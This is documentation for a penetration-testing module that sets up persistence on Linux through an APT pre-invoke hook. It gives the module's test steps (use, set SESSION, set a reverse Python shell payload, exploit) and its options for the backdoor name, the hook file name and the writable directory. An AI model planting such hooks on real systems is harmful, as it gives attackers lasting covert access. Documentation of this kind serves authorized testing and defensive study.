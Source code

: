 ## Apt package manager persistence

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. Module creates a pre-invoke hook
for APT in apt.conf.d. The Hook name syntax is numeric followed by text.  

### Testing

1. Exploit a box that uses APT 
2. `use linux/local/apt_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs apt-get update the payload will launch.  You must set handler accordingly.

### Options

**BACKDOOR_NAME**
Name of backdoor executable
 
**HOOKNAME**
Name of pre-invoke hook to be installed in /etc/apt/apt.conf.d/ default is (05new-hook).
Pre-invoke hooks name syntax is numeric followed by text. 
  
**SESSION**
The session to run this module on.
 
### Advanced Options

**WritableDir**
Writable directory for backdoor default is (/usr/local/bin/)       



